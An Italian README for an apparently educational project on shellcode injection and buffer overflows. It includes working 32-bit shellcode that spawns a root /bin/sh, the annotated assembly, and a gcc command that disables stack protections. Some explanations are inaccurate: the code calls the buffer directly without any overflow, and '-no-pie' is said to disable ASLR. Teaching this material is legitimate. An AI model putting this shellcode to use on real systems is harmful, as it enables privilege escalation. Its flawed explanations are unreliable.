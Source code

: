# Shellcode Injection Project

## Descrizione del Progetto

Questo progetto dimostra una tecnica di exploit nota come Shellcode Injection. L'obiettivo è eseguire del codice arbitrario (shellcode) sfruttando una vulnerabilità di buffer overflow in un programma C.

## File del Progetto

- `vuln.c`: Il programma vulnerabile scritto in C.
- `build.sh`: Script di compilazione per costruire l'eseguibile vulnerabile `vuln`.

## Panoramica del Codice

### vuln.c

Il file `vuln.c` contiene un semplice programma C che è vulnerabile a un buffer overflow. Il programma include uno shellcode che lancia una shell `/bin/sh` con privilegi di root.

```c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";

int main() {
    printf("Shellcode Length:  %lu\n", strlen(shellcode));

    char buffer[68];
    memset(buffer, '\x90', sizeof(buffer));

    memcpy(buffer, shellcode, strlen(shellcode));

    unsigned int ret_addr = 0xffffcf20; 
    *((unsigned int*)(buffer + 64)) = ret_addr;

    int (*ret)() = (int(*)())buffer;
    ret();

    return 0;
}
```

Il programma vuln.c definisce un buffer di 68 byte e copia il nostro shellcode all'interno di esso. Dopo aver riempito il buffer con il nostro shellcode, l'indirizzo di ritorno viene sovrascritto con un indirizzo specifico (in questo caso, 0xffffcf20). Poi, il programma esegue il contenuto del buffer come se fosse una funzione.

- `unsigned char shellcode[]`: Questa variabile contiene lo shellcode che esegue /bin/sh.

- `char buffer[68]`: Definisce un buffer di 68 byte.

- `memset(buffer, '\x90', sizeof(buffer))`: Riempie il buffer con istruzioni NOP (No Operation). Questo serve a creare un'area di sicurezza nel caso in cui l'indirizzo di ritorno non sia esattamente corretto.

- `memcpy(buffer, shellcode, strlen(shellcode))`: Copia lo shellcode all'inizio del buffer.

- `unsigned int ret_addr = 0xffffcf20`: Definisce l'indirizzo di ritorno che sovrascriverà l'indirizzo di ritorno originale sullo stack. Questo indirizzo dovrebbe puntare a una posizione all'interno del buffer contenente il nostro shellcode.

- `*((unsigned int*)(buffer + 64)) = ret_addr`: Sovrascrive l'indirizzo di ritorno con ret_addr.

- `int (*ret)() = (int(*)())buffer; ret();`: Definisce un puntatore a funzione che punta all'inizio del buffer ed esegue il codice in esso contenuto. 

## build.sh
Il file `build.sh` è uno script di shell per compilare il programma vulnerabile. Utilizza gcc con specifiche opzioni per disabilitare le protezioni di sicurezza come il canary stack e l'ASLR (Address Space Layout Randomization).
```sh
gcc -z execstack -fno-stack-protector -m32 -no-pie -o vuln vuln.c
```
### Opzioni di compilazione
- `-z execstack`: Permette l'esecuzione dello stack. Di default, lo stack non è eseguibile per prevenire attacchi come buffer overflow, quindi questa opzione è necessaria per eseguire il nostro shellcode dallo stack.

- `-fno-stack-protector`: Disabilita il canary stack, una protezione che previene buffer overflow rilevando la corruzione del stack.

- `-m32`: Compila il programma come un binario a 32 bit.

- `-no-pie`: Disabilita l'Address Space Layout Randomization (ASLR), una tecnica di sicurezza che randomizza le posizioni di memoria delle regioni chiave del processo (come stack, heap, librerie, ecc.). Disabilitando ASLR, possiamo prevedere l'indirizzo di ritorno per il nostro exploit.

- `-o vuln`: Specifica il nome del file di output generato dalla compilazione (in questo caso, vuln).

## Shellcode
Lo shellcode è una sequenza di istruzioni in linguaggio macchina che esegue una specifica funzione. In questo caso, il nostro shellcode esegue una shell /bin/sh. Di seguito è riportato il codice assembly corrispondente al nostro shellcode:
```assembly
section .text
    global _start

_start:
    xor eax, eax            ; azzera eax
    xor ebx, ebx            ; azzera ebx
    mov al, 0x17            ; setta eax a 0x17 (syscall per setuid)
    int 0x80                ; invoca la syscall

    jmp short call_shell    ; salta alla sezione call_shell

code_start:
    pop esi                 ; pop della stringa "/bin/sh" in esi
    mov [esi+0x8], esi      ; copia l'indirizzo della stringa in [esi+8]
    xor eax, eax            ; azzera eax
    mov byte [esi+7], al    ; setta il byte nullo alla fine della stringa
    mov [esi+0xc], eax      ; setta [esi+0xc] a 0
    mov al, 0xb             ; setta eax a 0xb (syscall per execve)
    mov ebx, esi            ; copia l'indirizzo della stringa in ebx
    lea ecx, [esi+0x8]      ; carica l'indirizzo dell'array di argomenti in ecx
    lea edx, [esi+0xc]      ; carica l'indirizzo dell'array di environment variables in edx
    int 0x80                ; invoca la syscall

    xor ebx, ebx            ; azzera ebx
    mov eax, ebx            ; copia ebx in eax
    inc eax                 ; incrementa eax (setta eax a 1)
    int 0x80                ; invoca la syscall per exit

call_shell:
    call code_start         ; chiama code_start
    .ascii "/bin/sh"        ; stringa "/bin/sh"
```
Questo shellcode segue questi passaggi:
1. Setta i registri `eax` e `ebx` a zero.
2. Invoca la syscall `setuid` per settare l'UID effettivo a 0 (root).
3. Salta a `call_shell` per posizionare l'indirizzo della stringa `/bin/sh` sullo stack.
4. Copia la stringa `/bin/sh` in `esi`.
5. Prepara gli argomenti per la syscall `execve`.
6. Invoca `execve` per eseguire `/bin/sh`.
7. Se `execve` fallisce, invoca `exit`.

## Cenni Teorici
Un buffer overflow si verifica quando più dati di quanti un buffer possa gestire vengono scritti in esso, sovrascrivendo
la memoria adiacente. Questo pu`o portare a comportamenti imprevisti e potenzialmente sfruttabili.
Quando un programma chiama una funzione, lo stack di chiamata viene utilizzato per memorizzare vari-
abili locali, indirizzi di ritorno e altri dati. Durante un attacco di buffer overflow, un attaccante cerca di
sovrascrivere l’indirizzo di ritorno per eseguire codice arbitrario. Vediamo come funziona questo attacco con
una rappresentazione dello stack:

Prima del Buffer Overflow:
+------------------+ <-- Top dello Stack
| Indirizzo di     |
| Ritorno          |
+------------------+
| Vecchio          |
| Base Pointer     |
+------------------+
| Variabili Locali |
| (Buffer)         |
+------------------+
| ...              |

Durante il Buffer Overflow:
+------------------+ <-- Top dello Stack
| Indirizzo di     | <--- Sovrascritto;
| Ritorno          |      Terza parte del payload
+------------------+
| Vecchio          | <--- Sovrascritto
| Base Pointer     |      Seconda parte del payload
+------------------+
| Buffer           | <--- NOP e shellcode
|                  |      Prima parte del payload
+------------------+
| ...              |

Dopo il Buffer Overflow:
+------------------+ <-- Top dello Stack
| Indirizzo di     | <--- Punterà allo
| Ritorno          |      shellcode
+------------------+
| Vecchio          |
| Base Pointer     |
+------------------+
| Buffer           | <--- Shellcode
|                  |
+------------------+
| ...              |

In questa rappresentazione, l’attaccante riempie il buffer con il proprio shellcode e sovrascrive l’indirizzo di
ritorno con l’indirizzo del buffer stesso. Quando la funzione ritorna, esegue lo shellcode.


## Esecuzione del progetto
Per eseguire il progetto, seguire i passaggi seguenti:

1. Assicurati di avere installato GCC con il supporto per la compilazione a 32 bit. Su un sistema Debian/Ubuntu, puoi installare i pacchetti necessari con:
```sh
sudo apt-get install gcc-multilib g++-multilib
```
2. Compila il programma eseguendo lo script build.sh:
```sh
./build.sh
```
3. Esegui il programma compilato:
```sh
./vuln
```

## Nota di sicurezza
Questo progetto è puramente educativo e dimostra tecniche di exploit che non dovrebbero essere utilizzate in ambienti di produzione. Utilizzare queste tecniche in modo responsabile e solo in ambienti controllati per fini di studio e ricerca.

## Autore
Progetto sviluppato da Federico Fiorelli.
